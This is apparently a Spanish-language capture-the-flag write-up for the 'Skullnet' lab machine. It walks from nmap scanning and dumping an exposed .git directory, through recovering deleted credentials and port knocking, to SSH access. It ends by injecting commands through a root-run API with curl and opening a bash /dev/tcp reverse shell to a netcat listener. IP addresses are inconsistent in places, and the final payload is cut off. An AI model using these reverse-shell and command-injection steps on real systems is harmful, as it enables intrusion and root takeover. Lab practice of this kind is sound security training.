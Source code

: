 Maquina: Skullnet

Autor: The Hacker Labs

Dificultad: Dificil

![Screenshot 2024-11-16 095739](https://github.com/user-attachments/assets/5b69c447-8f76-4777-89e0-f4dcc3380249)

ping 172.18.0.2 -c 1

![Screenshot 2024-11-16 103630](https://github.com/user-attachments/assets/98973b45-693a-4426-8722-d09e20842a5a)

Realizamos un escaneo de los puertos

nmap -sC -sV -Pn 172.18.0.2 -oG escaneo

![Screenshot 2024-11-16 103847](https://github.com/user-attachments/assets/7c3f10fb-1286-4be3-a496-72c98e456203)

Realizamos un escaneo mas detallado y encontramos un directorio .git

nmap -sC -sV -Pn --open 172.18.0.2

usamos githack

githack http://skullnet.es/.git/

vamos a la carpeta que se genera

git log

descubrimos 2 hashes

Revisamos cada commit, en el primero observamos que tenemos un mensaje

git show 9c902d081106a85cf2d928cd96a1cd9c90d7a2c9

En el segundo commit tenemos lo siguiente

git show 648d951e0f8b7cc60b11c82d9328fe9cb1a4a53d

Observamos que identificamos varios archivos
Primero un archivo authentication.txt que fue eliminado 
Para recuperar el archivo eliminado hacemos lo siguiente

git checkout 9c902d081106a85cf2d928cd96a1cd9c90d7a2c9^ --authentication

git add authentication.txt

Listamos los archivos y podemos observar que es el mismo texto que nos dio.

catnp authentication.txt

Obtenemos unas credenciales

skulloperator:+%7nj^g!DQxp]a>c4v&0

Seguimos revisando y ahora debemos buscar el archivo /network.pcap

git checkout 9c902d081106a85cf2d928cd96a1cd9c90d7a2c9^ -- network.pcap

git add network.pcap

Abrimos el archivo con whireshark, como la consulta es corta podemos hacerlo manual. 
Comprobando la captura podemos observar que en la IP de nuestro interés se tiene comunicación con el puerto SSH y 3 puertos adicionales

Con esta información realizaremos un port knocking a los puertos encontrados

knock 172.17.0.2 1000 12000 5000 -v

ejecutar nmap

nmap -sC -sV -Pn 172.18.0.2

Ya que tenemos habilitado el puerto SSH 

Accedemos por ssh con las credenciales obtenidas

ssh skulloperator@172.18.0.2

ls

cat user.txt

Revisando procesos observamos que tenemos el archivo skullnet_api.py que lo está ejecutando root

ps aux

Abrimos el archivo y podemos observar el siguiente escucha en el puerto 8081 y ejecuta comandos cuando recibe una solicitud http get con un parámetro específico

Este código para la parte de autenticación espera un encabezado Authorization con el esquema de basic como tenemos la clave de autenticación AUTH_KEY_BASE64 y si esa sección convertimos de base 64 podemos observar lo siguiente.

echo "d2VfYXJlX2JvbmVzXzUxMzU0NjUxNjQ4NjQ4NA==" | base64 -d

Con esto en conocimiento la estructura del encabezado de Authorization sería la siguiente.

Authorization: basic we_are_bones_513546516486484

usamos curl con el parametro exec

Ejecutamos el comando y podemos observar que listamos archivos y también podemos observar que los ejecutamos como root

curl http://localhost:8081/?exec-ls -H 'Authorization: Basic we_are_bones_513546516486484'
close.sh
open.sh
root.txt

curl http://localhost:8081/?exec-whoami -H 'Authorization: Basic we_are_bones_513546516486484'

Con esto en mente podemos establecer una revshell

bash -c 'bash -i >& /dev/tcp/172.18.0.2/1234 0>&1'

La URL encodeamos para evitar problemas

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F1234%200%3E%261%22

iniciamos netcat

nc -lvnp 1234

URL en codeado sería %3B, Con este permiso lo que hacemos es agregar el comando luego del ls

curl http://localhost:8081/?exec=ls%3Bbash%20-c%20%22bash%20-i%

Si vamos a nuestro listener podemos observar que ya tenemos acceso a la consola de root
